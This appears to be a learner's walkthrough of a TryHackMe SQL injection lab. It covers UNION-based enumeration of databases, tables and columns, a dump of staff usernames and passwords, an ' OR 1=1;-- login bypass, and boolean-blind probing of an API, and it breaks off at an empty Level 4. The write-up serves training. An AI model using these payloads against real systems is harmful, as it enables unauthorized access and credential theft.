## Target: TryHackMe SQL Injection Practical Lab
## Platform: TryHackME
## Date: 07/08/2026
## Difficulty: Easy
## Tools: 

### Level 1 

#### Objective 

**Extract credentials from vulnerable database**

#### **Enumerate Column Count & Make Output Visible +**

Performed column enumeration using numbers to satisfy UNION conditions 



Found article page returned 3 columns 



Set article id to 0 to make injected output visible 

```SQL
0 UNION SELECT 1,2,3
```
Found that 3 shows up in the pages content area, making it the column perfect for extraction 


#### **Get Database Name**

Used MYSQL function database() to extract the name of the current database for future enumeration

```SQL
0 UNION SELECT 1,2,database()
```




Query showed that the current database is `sqli_one`


#### **Enumerate Tables and Columns**

Enumerated the tables listed within the `sqli-one` database to find the table containing user credenetials 

- 

```SQL
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema= 'sqli_one'
```

- Used information_schema.tables (Found in MYSQL, MariaDB, PostgreSQL and showsd database table) to collect the current tables found in the database system



Found table `staff_users` from the injected query output 


```SQL
0 UNION SELECT 1,2, group_concat(column_name) FROM information_schema.columns WHERE table_name='staff_users'
```



Found columns `id`, `password`, `username` from injected query output 


#### **Dumping Credentials**

Extracted usernames and passwords from `staff_users`

```SQL
0 UNION SELECT 1,2, group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users
```



Found Martin's password 'pas$$word' from injected query output 

#### **Capture Flag**


---


### Level 2

#### Objective 

**Authenticate without valid credentials**

#### **Authentication Bypass**

Presented with a login form at https://website.thm/login

Entered payload 

```SQL
' OR 1=1;--
```

- Premature field closure (') does not match any user 
- `OR 1=1` always evaluates to true (returning a row)
- `;--` ends the statements and comments everything after it (password)




Login was bypassed and flag was captured 

---

### Level 3

#### Objective 

**Extract credentials using only true/false responses**

#### Enumerate Page and Confirm Injection 

Presented with checkuser API at https://website.thm/checkuser?username=admin returning {"taken":true}



Attempted to confirm whether URL parameter username was injectable or not 

```SQL
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
Respone returned {"taken":true} confirming parameter is injectable 


#### Enumerate Database 

Attempted to get database, character by character 




Confirmed database name `sqli_three` via {"taken":true} page response 



#### Enumerate Tables and Columns

Queried information_schema.tables within 'sqli_three' database  to enumerate available tables (LIKE)

```SQL
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like '%';--
```

Narrowed result down to table 'users' 


Extracted available columns from users through the same enumeration process

```SQL
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_name = 'users' and column_name like '%';--
```

Confirmed the column `username` exists 



Confirmed column `password` exists 




### Level 4 


#### Key Takeaway


